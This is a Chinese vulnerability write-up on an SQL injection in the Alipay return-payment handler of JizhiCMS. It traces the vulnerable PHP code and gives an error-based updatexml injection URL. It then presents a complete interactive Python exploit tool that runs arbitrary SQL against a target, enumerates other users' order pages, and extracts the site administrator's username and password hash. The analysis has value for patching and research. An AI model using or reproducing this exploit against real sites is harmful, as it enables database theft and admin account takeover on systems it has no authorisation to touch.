


# 极致CMS alipay_return_pay SQL注入漏洞

## 漏洞描述

极致CMS支付插件中存在SQL注入漏洞，通过漏洞可以获取数据库信息 

## 漏洞影响

```
极致CMS
```

## 网络测绘

```
icon_hash="1657387632"
```

## 漏洞复现

查看一下进行过滤的函数

```php
/**
	参数过滤，格式化
**/
function format_param($value=null,$int=0){
	if($value==null){ return '';}
	switch ($int){
		case 0://整数
			return (int)$value;
		case 1://字符串
			$value=htmlspecialchars(trim($value), ENT_QUOTES);
			if(version_compare(PHP_VERSION,'7.4','>=')){
				$value = addslashes($value);
			}else{
				if(!get_magic_quotes_gpc())$value = addslashes($value);
			}
			
			return $value;
		case 2://数组
			if($value=='')return '';
			array_walk_recursive($value, "array_format");
			return $value;
		case 3://浮点
			return (float)$value;
		case 4:
			if(version_compare(PHP_VERSION,'7.4','>=')){
				$value = addslashes($value);
			}else{
				if(!get_magic_quotes_gpc())$value = addslashes($value);
			}
			return trim($value);
	}
}

//过滤XSS攻击
function SafeFilter(&$arr) 
{
   $ra=Array('/([\x00-\x08,\x0b-\x0c,\x0e-\x19])/','/script/','/javascript/','/vbscript/','/expression/','/applet/'
   ,'/meta/','/xml/','/blink/','/link/','/style/','/embed/','/object/','/frame/','/layer/','/title/','/bgsound/'
   ,'/base/','/onload/','/onunload/','/onchange/','/onsubmit/','/onreset/','/onselect/','/onblur/','/onfocus/',
   '/onabort/','/onkeydown/','/onkeypress/','/onkeyup/','/onclick/','/ondblclick/','/onmousedown/','/onmousemove/'
   ,'/onmouseout/','/onmouseover/','/onmouseup/','/onunload/');
     
   if (is_array($arr))
   {
     foreach ($arr as $key => $value) 
     {
        if (!is_array($value))
        {
            if(version_compare(PHP_VERSION,'7.4','>=')){
				$value  = addslashes($value); 
			}else{
				if (!get_magic_quotes_gpc()){
					$value  = addslashes($value); 
				}
			}
          $value = preg_replace($ra,'',$value);     //删除非打印字符，粗暴式过滤xss可疑字符串
          $arr[$key]     = htmlentities(strip_tags($value)); //去除 HTML 和 PHP 标记并转换为 HTML 实体
        }
        else
        {
          SafeFilter($arr[$key]);
        }
     }
   }
}
```

看一下执行的SQL语句的函数

```php
 // 查询一条
    public function find($where=null,$order=null,$fields=null,$limit=1)
    {
	   if( $record = $this->findAll($where, $order, $fields, 1) ){
			return array_pop($record);
		}else{
			return FALSE;
		}
    }
```

跟进 findAll 函数

```php
// 查询所有
    public function findAll($conditions=null,$order=null,$fields=null,$limit=null)
    {
		$where = '';
		if(is_array($conditions)){
			$join = array();
			foreach( $conditions as $key => $value ){
				$value =  '\''.$value.'\'';
				$join[] = "{$key} = {$value}";
			}
			$where = "WHERE ".join(" AND ",$join);
		}else{
			if(null != $conditions)$where = "WHERE ".$conditions;
		}
      if(is_array($order)){
       		$where .= ' ORDER BY ';
            $where .= implode(',', $order);
      }else{
         if($order!=null)$where .= " ORDER BY  ".$order;
      }
		
		if(!empty($limit))$where .= " LIMIT {$limit}";
		$fields = empty($fields) ? "*" : $fields;
 
		$sql = "SELECT {$fields} FROM {$this->table} {$where}";
		
        return $this->getData($sql);
 
    }
```

再跟进一下getData函数

```php
//获取数据
	public function getData($sql)
	{
		if(!$result = $this->query($sql))return array();
		if(!$this->Statement->rowCount())return array();
		$rows = array();
		while($rows[] = $this->Statement->fetch(PDO::FETCH_ASSOC)){}
		$this->Statement=null;
		array_pop($rows);
		return $rows;
	}
```

跟进query执行函数

```php
//执行SQL语句并检查是否错误
	public function query($sql){
		$this->filter[] = $sql;
        $this->Statement = $this->pdo->query($sql);
        if ($this->Statement) {
			return $this;
        }else{
			$msg = $this->pdo->errorInfo();
			if($msg[2]) exit('数据库错误：' . $msg[2] . end($this->filter));
		}
	}
```

看到`$msg = $this->pdo->errorInfo();`语句，也就是说会把数据库报错信息打印在页面上并显示出来并退出

一套分析下来没有发现对sql语句的过滤，如果得到的数据没有经过`format_param`过滤，会产生注入

例如:

```php
function exploit(){
    M('member')->find(['username'=>$_GET['name']]);
}
```

如果直接这样GET POST REQUEST 带入数据库 会产生报错注入

例如  ./exploit/name=123'  (加一个引号会报错，如果引号没过滤)

现在只需要寻找类型是这样没过滤直接带入数据库的语句就行了

简单寻找下其实这样的地方挺多的，拿一个位置举例子


这里是一个支付插件的位置，蓝色方块1增加代码模拟开通支付宝功能通过验证

可以看到这个函数只使用[htmlspecialchars]来过滤了xss，sql语句没有过滤，用刚刚的方法来注入


可以看到的确出现了sql语句和数据库错误

直接报错注入获取敏感信息

- `mypay/alipay_return_pay?out_trade_no=1%27 and updatexml(1,concat(0x7e,(select version()),0x7e),1)--+"`




```python
import requests
import re

"""
官网url : https://www.jizhicms.cn/
"""

def main():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                \033[0m')
    print('+  \033[34mVersion: 极致CMS 1.67 - 171             \033[0m')
    print('+  \033[36m使用格式: python3 CNVD-2020-49710.py     \033[0m')
    print('+------------------------------------------')


    while True:
        poc = str(input('选择使用的poc：\n'
                        '1.sql注入\n'
                        '2.用户购物车爆破\n'
                        '3.GET 网站管理员账号密码\n'
                        '4.退出 quit\n'
                        'poc:'))
        print('------------------ peiqi -----------------------')
        if poc == '1':
            poc_1()
        elif poc == '2':
            poc_2()
        elif poc == '3':
            poc_3()
        elif poc == '4':
            break
        else:
            print('参数错误，重新输入')


def poc_1():
    ## poc_1 --->  sql注入漏洞点( Home/c/MypayController.php [alipay_notify_pay])
    ## 使用范围 极致cms 1.71 + 1.7 + 1.67 版本
    """
    function alipay_return_pay(){
    		extendFile('pay/alipay/AlipayServiceCheck.php');
    		//支付宝公钥，账户中心->密钥管理->开放平台密钥，找到添加了支付功能的应用，根据你的加密类型，查看支付宝公钥
    		$alipayPublicKey=$this->webconf['alipay_public_key'];

    		$aliPay = new \AlipayServiceCheck($alipayPublicKey);
    		//验证签名
    		$result = $aliPay->rsaCheck($_GET,$_GET['sign_type']);

            $result=true;   <<--- (添加的php代码 模拟打开支付宝 并通过签名验证)

            if($result===true){
    			//同步回调一般不处理业务逻辑，显示一个付款成功的页面，或者跳转到用户的财务记录页面即可。
    			//echo '<h1>付款成功</h1>';
    			$out_trade_no = htmlspecialchars($_GET['out_trade_no']);  << ---- （漏洞位置，只过滤了xss，没有调用函数过滤sql语句）
    			$orderno = $out_trade_no;
    			$paytime = time();
    			$order = M('orders')->find(['orderno'=>$orderno]);  << --- (执行sql注入的语句)
    """

    try:
        exploit_url = str(input("攻击网站url：\n"))

        while True:
            payload = str(input("请输入你的payload（sql）语句:\n"))
            # mypay/alipay_return_pay?out_trade_no=1
            payload_url = exploit_url + "mypay/alipay_return_pay?out_trade_no=1%27 and updatexml(1,concat(0x7e,(" + payload + "),0x7e),1)--+"
            # print('你的payload语句为: \n', payload_url)

            response = requests.get(payload_url)
            # print(response.text)

            data = re.search(r'~(.*?)~', response.text).group(1)

            if data == []:
                print('[!!] sql语句错误 或者 版本高于 [极致cms 1.71  -> 发布时间 2020-05-25]')
            else:
                print('得到的数据为:\n', data)
                print('------------------ peiqi -----------------------')
    except:
        print('出现错误')
        print('------------------ peiqi -----------------------')


# http://jizhicms.com/user/orderdetails/orderno/No20200712213457.html
def poc_2():
    ## poc_2 ---> 用户购物车页面获取 (Home/c/UserController.php [orderdetails])
    ## 漏洞点 ---> 无用户cookie id 的验证
    ## 使用范围 极致cms 1.8以下全版本 (当前最新 v1.8 更新时间:6月30日)
    """
    function orderdetails(){
    	$orderno = $this->frparam('orderno',1);
		$order = M('orders')->find(['orderno'=>$orderno]);
		if($orderno && $order){
			/*
			if($order['isshow']!=1){
				//超时或者已支付
				if($order['isshow']==0){
					$msg = '订单已删除';
				}
				if($order['isshow']==3){
					$msg = '订单已过期，不可支付！';
				}
				if($order['isshow']==2){
					$msg = '订单已支付，请勿重复操作！';
				}
				if($this->frparam('ajax')){
					JsonReturn(['code'=>1,'msg'=>$msg]);
				}
				Error($msg);

			}
			*/
			$carts = explode('||',$order['body']);
			$new = [];
			foreach($carts as $k=>$v){
				$d = explode('-',$v);
				if($d[0]!=''){
					//兼容多模块化
					if(isset($this->classtypedata[$d[0]])){
						$type = $this->classtypedata[$d[0]];
						$res = M($type['molds'])->find(['id'=>$d[1]]);
						$new[] = ['info'=>$res,'num'=>$d[2],'tid'=>$d[0],'id'=>$d[1],'price'=>$d[3]];
					}else{
						$new[] = ['info'=>false,'num'=>$d[2],'tid'=>$d[0],'id'=>$d[1],'price'=>$d[3]];
					}
				}

			}
			$this->carts = $new;
			$this->order = $order;
			$this->display($this->template.'/user/orderdetails');
		}

    }
    """
    try:
        exploit_url = str(input("攻击网站url：\n"))
        year_day    = str(input("输入日期(例如:20200712):"))

        shop = []

        # 遍历所有出现的用户购物车页面
        for num in range(100000,999999):
                #payload_url = "user/orderdetails/orderno/No" + year_day + str(num) + ".html"
                payload_url = "user/orderdetails/orderno/No20200712213927.html"

                response = requests.get(exploit_url + payload_url)

                # 打印结果
                if '总金额' in response.text:
                        print('购物车页面：',payload_url)
                        shop.append(payload_url)

                for page in shop:
                    print(page)
                    print('------------------ peiqi -----------------------')

    except:
        print('出现错误')
        print('------------------ peiqi -----------------------')

def poc_3():
    ## poc_3  ---> 得到账号密码  ( Home/c/MypayController.php [alipay_notify_pay])
    ## 使用范围 ---> 极致cms 1.71 + 1.7 + 1.67 版本
    try:
        exploit_url = str(input("攻击网站url：\n"))
        # payload --> updatexml(1,concat(0x7e,(select distinct length(concat(0x23,name,0x3a,pass,0x23)) from jz_level limit 0,1),0x7e),1)--+
        # 用户名 + 密码 长度

        payload_url = exploit_url + "mypay/alipay_return_pay?out_trade_no=1%27 and updatexml(1,concat(0x7e,(select distinct length(concat(0x23,name,0x3a,pass,0x23)) from jz_level limit 0,1),0x7e),1)--+"
        response = requests.get(payload_url)
        str_long = re.search(r'~(.*?)~',response.text).group(1)
        #print(str_long)

        # 得到账号密码，密码md5格式
        payload_url = exploit_url + "mypay/alipay_return_pay?out_trade_no=1%27 and updatexml(1,concat(0x7e,(select distinct substring(concat(0x23,name,0x3a,pass,0x23),1,32) from jz_level limit 0,1),0x7e),1)--+"
        response = requests.get(payload_url)
        admin_name_1 = re.search(r"~#(.*?)'", response.text).group(1)
        #print(admin_name_1)

        payload_url = exploit_url + "mypay/alipay_return_pay?out_trade_no=1%27 and updatexml(1,concat(0x7e,(select distinct substring(concat(0x23,name,0x3a,pass,0x23),32," + str(int(str_long) - 32) +") from jz_level limit 0,1),0x7e),1)--+"
        response = requests.get(payload_url)
        admin_name_2 = re.search(r'~(.*?)~', response.text).group(1)
        #print(admin_name_2)

        # 分割账号密码
        admin_passwd = admin_name_1 + admin_name_2
        admin_passwd = admin_passwd.split(':')
        admin = admin_passwd[0]
        passwd = admin_passwd[1]
        #print(admin)
        #print(passwd)

        print("成功得到账号密码：\n"
              "用户名:",admin,
              "\n密码(md5):",passwd)
        print('------------------ peiqi -----------------------')
    except:
        print('出现错误')
        print('------------------ peiqi -----------------------')


if __name__ == '__main__':
    main()
```

